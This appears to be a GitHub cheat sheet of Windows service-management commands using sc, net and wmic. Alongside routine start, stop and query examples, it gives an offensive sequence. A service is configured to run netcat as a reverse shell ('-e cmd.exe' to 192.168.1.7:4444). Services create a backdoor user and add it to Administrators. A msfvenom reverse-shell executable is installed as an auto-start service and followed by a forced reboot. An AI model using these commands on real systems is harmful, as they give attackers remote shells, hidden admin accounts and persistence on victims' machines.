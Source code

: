 # Service-Controller-Utility-Commands

## Querying Services

#### Display Information About a Specified Service
```powershell
sc query
```

#### Display Extended Information About a Service
```powershell
sc queryex type= service
```

#### Display Services of Type 'Service'
```powershell
sc query type= service
```

#### Find Specific Service States
```powershell
sc query find "STATE"
```

#### Find a Specific Service by Name
```powershell
sc query | find "Telnet"
```

#### Query a Specific Service
```powershell
sc query LanmanServer
```

---

# Service Configuration

#### Display the Configuration of a Service
```powershell
sc qc Audiosrv
```

#### Stop a Service
```powershell
sc stop Audiosrv
```

#### Start a Service
```powershell
sc start Audiosrv
```

#### Pause a Service
```powershell
sc pause Audiosrv
```

#### Resume a Paused Service
```powershell
sc continue Audiosrv
```

#### Configure Service Startup and Login Accounts
```powershell
sc config Audiosrv
```

---

# Creating and Managing Services

#### Create a New Service
```powershell
sc create nc binPath= "C:\Windows\System32\nc64.exe"
```

#### Query the Configuration of a Created Service
```powershell
sc qc nc
```

#### Query the Status of a Created Service
```powershell
sc query nc
```

#### Start the Created Service
```powershell
sc start nc
```

#### Delete a Service
```powershell
sc delete nc
```

#### Configure a Service to Run a Specific Command
```powershell
sc config nc binPath= "C:\Windows\nc64.exe 192.168.1.7 4444 -e cmd.exe"
```

#### Create a Service to Send ICMP Packets
```powershell
sc create pingme binPath= "ping 192.168.1.6"
```

#### Start the ICMP Service
```powershell
sc start pingme
```

#### Create a User Creation Service
```powershell
sc create useradd binPath="net user u1 password@123 /add"
```

#### Start the User Creation Service
```powershell
sc start useradd
```

#### Configure a Service to Add a User to Administrators Group
```powershell
sc config useradd binpath= "net localgroup administrators u1 /add"
```

#### Start the Privilege Elevation Service
```powershell
sc start useradd
```

---

# Exploitation Example

#### Generate a Reverse Shell Executable Using msfvenom
```powershell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.6 LPORT=4455 -f exe > shell.exe
```

#### Configure a Service to Execute the Shell
```powershell
sc create msfvenom_shell binPath= "C:\Windows\Temp\shell.exe"
```

#### Change a Service's Startup Type
```powershell
sc config msfvenom_shell start=auto
```
- **auto** - Automatic Startup
- **demand** - Manual Startup
- **disabled** - Disabled

#### Restart the System Immediately
```powershell
shutdown /r /t 0 /f
```

---

# Service Management Using `net`

#### Start a Service Using `net`
```powershell
net start TlntSvr
```

#### Stop a Service Using `net`
```powershell
net stop TlntSvr
```

#### Pause a Service Using `net`
```powershell
net pause TlntSvr
```

#### Resume a Paused Service Using `net`
```powershell
net continue TlntSvr
```

---

# Using `wmic` to Manage Services

#### List All Services with Details
```powershell
wmic service get name, displayname, pathname, startmode
```

#### List All Auto-Start Services
```powershell
wmic service get name, displayname, pathname, startmode | findstr /i "auto"
```

#### List All Auto-Start Services Excluding Those in C:\Windows
```powershell
wmic service get name, displayname, pathname, startmode | findstr /i "auto" | findstr /i/v "c:\windows"
```

---

# Additional Resources

#### ServiceSecurityEditor

ServiceSecurityEditor is used to maintain and manage services, allowing manual configuration of permissions for users.

[Download ServiceSecurityEditor](https://www.coretechnologies.com/products/ServiceSecurityEditor/)

#### After Download
1. Run the application.
2. Select the service you want to configure.
3. Click "Open".
4. Add a user.
5. Select the user and set the required permissions.
6. Click "Apply" and then "OK".
